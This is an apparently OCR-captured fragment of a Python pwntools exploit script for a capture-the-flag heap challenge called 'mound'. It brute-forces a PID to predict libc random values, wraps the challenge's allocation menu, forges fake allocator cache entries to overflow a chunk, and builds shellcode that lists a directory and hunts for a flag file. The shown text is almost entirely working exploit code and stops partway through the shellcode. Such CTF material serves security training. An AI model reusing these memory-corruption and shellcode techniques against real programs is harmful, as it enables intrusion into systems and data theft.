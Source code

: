    ```python
       libc.srand(t^int(args.PID)) # bruteforce PID
   else:
       r = context.binary.process()
       libc.srand(t^r.pid)
   
   # I/O methods
   def choose(opt: int): r.sendlineafter(b'> ', str(opt))
   def strdup(s: bytes, i: int):
       choose(1)
       r.sendafter(b'Pile: ', s)
       r.sendlineafter(b'index: ', str(i))
   def add(midx: int, idx: int, s: bytes):
       choose(2)
       sz = midx2rsize(midx)
       assert sz < 0x1000
       assert len(s) <= sz
       r.sendlineafter('pile: ', str(sz))
       r.sendlineafter('index: ', str(idx))
       r.sendafter('Pile: ', s)
   def edit(idx: int, s: bytes):
       choose(3)
       r.sendlineafter('index: ', str(idx))
       r.sendafter('pile: ', s)
   def free(idx: int):
       choose(4)
       r.sendlineafter('index: ', str(idx))
   
   def csize2midx(x:int): return (x>>4)-2
   def midx2csize(i:int): return (i+2)<<4
   def size2request(x:int): return x-0x10
   def request2size(x:int): return x+0x10
   def midx2rsize(i:int): return size2request(midx2csize(i))
   def r64bit(): return libc.rand()+(libc.rand()<<32) # emulate rand64bit
   def r64(): return randint(0, (1<<64)-1) # a separate, unrelated function to produce random numbers
   
   midxs = namedtuple('midb', 'first_alloc overflower incrementer fakechunk bugged got_overwriter entries')(1, 4, 0, 2, -1, 3, 0x10)
   mound_data = namedtuple('beef', 'base mcache fakechunk dents shellcode')(BEEF, BEEF+0x10, BEEF+0x100, BEEF+0x10000, BEEF+0x190)
   def fake_mcache_entry(sz: int, fd=0, rid=None, mcache=mound_data.mcache):
       if rid is None: rid = r64()
       return fit(rid, sz, mcache, fd)
   add(midxs.first_alloc, 0, fake_mcache_entry(sz=midx2csize(midxs.fakechunk)))
   add(midxs.overflower, 1, b'a') # chunk to be overflowed
   for _ in range(2): r64bit()
   
   O_DIRECTORY, FLAG_LEN = 0x10000, 100 # use reasonably long values here
   sc = '' # step 1: getting a directory listing
   sc+= shellcraft.pushstr('/pwn') # put "/pwn" on the stack
   sc+= shellcraft.openat(0, 'rsp', O_DIRECTORY) # use openat in lieu of open. rsp because of pushstr
   sc+= 'mov QWORD PTR [{}], rax\n'.format(mound_data.base) # Store the resultant fd _somewhere_ accessible (mound_data.base)
   sc+= shellcraft.getdents64('rax', mound_data.dents, 0x10000) # use getdents to list directory
   # step 2: loop through the dents data to find the flag filename
   sc+=shellcraft.mov('rax', mound_data.dents)
   sc+= 'loop:\n'
   sc+= 'inc rax\n'
   sc+= 'cmp DWORD PTR [rax], {}\n'.format(hex(u32('.txt')))
   sc+= 'jne loop\n'
   # step 3: open the flag file, read to _somewhere_ (mound_arena.base), and write to stdout
   sc+= 'lea rbx, [rax-0x20]\n'
   ```